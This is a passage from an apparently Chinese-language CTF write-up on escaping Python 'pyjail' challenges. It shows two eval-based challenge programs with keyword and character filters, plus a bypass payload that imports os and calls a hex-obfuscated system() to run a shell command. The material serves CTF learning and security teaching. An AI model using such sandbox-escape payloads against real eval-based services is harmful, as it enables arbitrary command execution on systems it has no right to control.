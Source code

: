 ```python
def check_eval():
    a = input('try os.system("cmd")!')
    if a.find('system') != -1:
        print('NO WAY!')
        return
    else:
        try:
            eval(a, {},{})
            print('SUCCESS!')
        except:
            print('ERROR!')
            pass


del __builtins__.__dict__['eval']
check_eval()
```

我们只需采取简单的绕过：

```python
payload = __import__("os").__getattribute__('\x73\x79\x73\x74\x65\x6d')("cmd")
```

## _02_morebabypyjail

如果有更多的限制呢？

```python
def check_eval():
    a = input('try os.system("cmd")!')
    if a.find('\'') != -1 or a.find('\"') != -1 \
            or '[' in a \
            or ']' in a \
            or '{' in a \
            or '}' in a \
            or "\'" in a \
            or "\"" in a \
            or not all(0 <= ord(c) <= 255 for c in a) \
            or any(c.isdigit() for c in a):
        print('NO WAY!')
        return
    else:
        try:
            eval(a, {}, {})
            print('SUCCESS!')
        except:
            print('ERROR!')
            pass
```

可以看到这里面有许多限制，如何在原有的基础上进行改动？
